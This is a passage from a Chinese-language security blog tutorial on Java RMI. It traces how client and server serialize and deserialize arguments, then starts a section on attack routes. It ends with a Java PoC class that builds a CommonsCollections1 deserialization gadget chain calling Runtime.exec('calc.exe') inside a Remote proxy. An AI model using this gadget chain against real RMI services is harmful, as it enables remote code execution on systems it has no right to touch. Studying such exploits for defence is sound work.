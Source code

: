 {{< figure src="/ox-hugo/2021-02-26_14-20-24_screenshot.png" >}}

获取到 Connection 对象后，调用 marshaValue 将远程方法的参数序列化写入到连接中：

{{< figure src="/ox-hugo/2021-02-26_14-27-26_screenshot.png" >}}

接着将输出流的数据发送到 server 端，获取响应后调用 unmarsharValue 进行反序列化：

{{< figure src="/ox-hugo/2021-02-26_14-32-21_screenshot.png" >}}

{{< figure src="/ox-hugo/2021-02-26_14-33-37_screenshot.png" >}}

在 server 端负责处理请求的方法是 UnicastServerRef#dispatch，调用 unmarshaValue 对参数进行处理：

{{< figure src="/ox-hugo/2021-02-26_14-46-47_screenshot.png" >}}

如果参数是一个对象，在 unmarshaValue 中会将其反序列化，然后通过反射调用远程方法。

{{< figure src="/ox-hugo/2021-02-26_14-53-07_screenshot.png" >}}

{{< figure src="/ox-hugo/2021-02-26_14-54-21_screenshot.png" >}}

后面的流程就不继续跟进了，我们已经知道 client 端和 server 端通信时调用了
unmarshaValue 方法进行反序列化相关操作，这也正是攻击的入口点。


## 攻击途径 {#攻击途径}

前文大致分析了一下 Java RMI 中各个角色是怎么进行交互的，以及代码执行过程中一些涉及到反序列化的点。下面就针对这些反序列化的点进行模拟攻击，以此了解针对 Java RMI 服务都有哪些常见的攻击途径。

攻击时所使用的 POP 链是 CommonsCollections1，可以在[这篇文章]({{< relref "ysoserial-cc1" >}})了解一下。先写一个 Poc
类方便生成恶意对象：

```java
public class Poc {
    Remote getObject() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "zrquan");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        // 用Remote代理对象封装evalObject
        return Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
    }
}
```
